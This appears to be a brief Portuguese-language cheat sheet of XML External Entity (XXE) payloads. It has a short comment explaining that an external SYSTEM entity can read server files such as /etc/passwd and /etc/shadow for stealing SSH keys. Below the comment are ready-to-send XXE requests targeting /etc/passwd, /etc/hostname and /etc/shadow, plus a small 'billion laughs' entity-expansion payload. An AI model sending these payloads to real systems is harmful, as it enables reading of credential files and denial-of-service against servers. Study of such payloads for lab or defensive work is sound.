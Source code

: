 

esse payload seleiona uma entidade externa o SYSTEM o que da acesso a ler aquivos dentro do servidor como a pasta passwd 
mas tambem poder ser usado para ler a etc/shadow
para roubo de chaves SSH dentre outros tipos de ataques com foco lFI local file inclusion
 

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/hostname"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/shadow"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>

<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
]>
<root>&lol2;</root>
